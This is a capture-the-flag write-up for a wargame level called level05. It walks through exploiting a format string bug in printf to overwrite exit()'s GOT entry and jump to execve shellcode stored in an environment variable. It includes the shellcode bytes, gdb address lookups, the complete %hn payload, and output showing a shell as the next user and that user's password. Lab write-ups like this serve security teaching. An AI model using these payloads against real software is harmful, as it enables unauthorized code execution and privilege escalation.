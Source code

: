 ### Download binary
``scp -P4242 level05@192.168.31.33:/home/users/level05/level05 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (refer to source code)

The printf function is used improperly, which enables a format string attack :
``printf(inputBuffer);``

PS : If characters of inputBuffer are an uppercase letter, it attempts to convert it to lowercase.

We gonna use this vulnerability to **overwrite the GOT and replace exit() adress by a shellcode adress**.

----

### The ShellCode

**Our shellcode**

``https: //shell-storm.org/shellcode/files/shellcode-811.html``

First we export our shellcode in an environment variable

``export SHELLCODE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')``

----

### Gathering infos to build the payload

**Find the adress of the shellcode in memory**

``gdb ./level05``
``(gdb) b main``
[...]
``(gdb) r``
[...]
``(gdb) x/200xs environ``
[...]
>0xffffd4d6:	 "SHELLCODE=\220\220\220\220\220\[...]
>0xffffd59e:	 "\220\220\220\220\220\220\220\[...]

We're keeping this 0xffffd59e, to be somewhere inside the NOP slide.

Converted to a number : 4294956446.

**Find exit adress in the GOT :**

``gdb ./level05``
``(gdb) disas exit``
>Dump of assembler code for function exit@plt:
>   0x08048370 <+0>:	jmp    *0x80497e0

The adress is **0x80497e0**.

**Find the printf memory's spot**

``(python -c 'print "AAAA" + ".%x" * 11') | ./level05``
>aaaa.64.f7fcfac0.0.0.0.0.ffffffff.ffffd744.f7fdb000.**61616161**.2e78252e.252e7825

Located in the 10th spot.

----

### Payload
Because 4294956446 characters are too much to print in a reasonnable time, we need to split our target address into two parts: the two most significant bytes (strong bytes) and the two least significant bytes (weak bytes), we gonna use **%hn** printf format to write in a specific 2 bytes memory spot.

**Splitting the adress and convert to number**

ffff = 65535
d59e = 54686

**Payload explanation**

- adress of the 2 strong bytes of exit()
- adress of the 2 weak bytes of exit()
- d59e in decimal - bytes allready written (8)
- 10th spot in memory
- ffff in decimal - bytes allready written (54686)
- 11th spot in memory
--> **080497e0 + 080497e2 + 54678 + %10hn + 10849 + %11hn**

**Our Payload**

``python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%54678d' + '%10\$hn' + '%10849d' + '%11\$hn'"``

----

### Bypassing security

``(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%54678d' + '%10\$hn' + '%10849d' + '%11\$hn'"; cat) | ./level05``

``whoami``
>level06

``cat /home/users/level06/.pass``
>h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
